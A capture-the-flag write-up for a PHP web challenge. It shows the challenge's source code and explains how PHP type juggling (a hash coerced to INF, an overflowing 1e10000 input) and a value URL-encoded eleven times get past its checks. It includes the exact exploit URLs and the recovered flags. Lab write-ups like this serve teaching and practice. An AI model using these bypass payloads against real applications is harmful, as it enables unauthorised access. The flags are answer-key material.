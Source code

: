 # Mandatory PHP
Web

## Challenge 

PHP, PHP everywhere get the flag and earn your points there.

http://159.89.166.12:14000/

## Solution

The code is shown on the website.

	<?php 
	include 'flag.php'; 
	highlight_file('index.php'); 
	$a = $_GET["val1"]; 
	$b = $_GET["val2"]; 
	$c = $_GET["val3"]; 
	$d = $_GET["val4"]; 
	if(preg_match('/[^A-Za-z]/', $a)) 
		die('oh my gawd...'); 
	$a=hash("sha256",$a); 
	$a=(log10($a**(0.5)))**2; 
	if($c>0&&$d>0&&$d>$c&&$a==$c*$c+$d*$d) 
	$s1="true"; 
	else 
	    die("Bye..."); 
	if($s1==="true") 
	    echo $flag1; 
	for($i=1;$i<=10;$i++){ 
	    if($b==urldecode($b)) 
	        die('duck'); 
	    else 
	        $b=urldecode($b); 
	}     
	if($b==="WoAHh!") 
	$s2="true"; 
	else 
	    die('oops..'); 
	if($s2==="true") 
	    echo $flag2; 
	die('end...'); 
	?> 

### Flag1

We need to meet the following conditions.
	
	// Condition 1
	if(preg_match('/[^A-Za-z]/', $a)) 
	
	// Condition 2
	$a=hash("sha256",$a); 
	$a=(log10($a**(0.5)))**2; 
	if($c>0 && $d>0 && $d>$c && $a == $c*$c + $d*$d) 

To make it simpler, I created a php script to test out.

	 $ php -f test.php 
	orig: hi
	hash: 8f434346648f6b96df89dda901c5176b10a6d83961dd3c1ac88b59b2dc327aa4
	calc: 0.20389288115128
	
	 $ php -f test.php 
	orig: helloworld
	hash: 936a185caaa266bb9cbe981e9e05cb78cd732b0b3280eb944412bb6f8f8f07af
	calc: 2.2071200423236
	
	 $ php -f test.php 
	orig: testing
	hash: cf80cd8aed482d5d1527d7dc72fceff84e6326592848447d2dc0b0e87dfc9a90
	
	Warning: A non-numeric value encountered in /Users/manzelseet/Desktop/pragyanctf-2019/Mandatory_PHP/solve.php on line 9
	calc: INF

By pure chance, input string of 'testing' makes the variable `$a = INF`. This makes it easier to fulfil the condition as we merely need to make INF equate to INF.

Since d > c, let's enter `c` as `1` and `d` as `1e10000`.

Hence, when `$c*$c + $d*$d` is evaluated, it will be extremely large and become equal to `INF`.

When we visit this page, we get a partial flag 1.

	http://159.89.166.12:14000/?val1=testing&val3=1&val4=1e10000

	pctf{b3_c4r3fu1_duck

### Flag2

From the code, we see that $b is decoded 10 times, and it will result in "WoAHh!".

	for($i=1;$i<=10;$i++){ 
	    if($b==urldecode($b)) 
	        die('duck'); 
	    else 
	        $b=urldecode($b); 
	}
	if($b==="WoAHh!") 
		$s2="true"; 

Putting it in reverse into my PHP script, we get the payload

	$ php -f solve.php 
	============FLAG2============
	orig: WoAHh!
	encoded_10: WoAHh%25252525252525252521
	> success

Hence I expected to find the flag at this link. However, it didn't work.

	http://159.89.166.12:14000/?val1=testing&val3=1&val4=1e10000&val2=WoAHh%25252525252525252521

This is because the browser decodes my url once when I paste it into the URL box.

	$ php -f solve.php 
	============FLAG2============
	orig: WoAHh!
	encoded_11: WoAHh%2525252525252525252521

Encode it one more time and then get the flag

	http://159.89.166.12:14000/?val1=testing&val3=1&val4=1e10000&val2=WoAHh%2525252525252525252521

	pctf{b3_c4r3fu1_w1th_pHp_f31145}end...

## Flag

	pctf{b3_c4r3fu1_w1th_pHp_f31145}
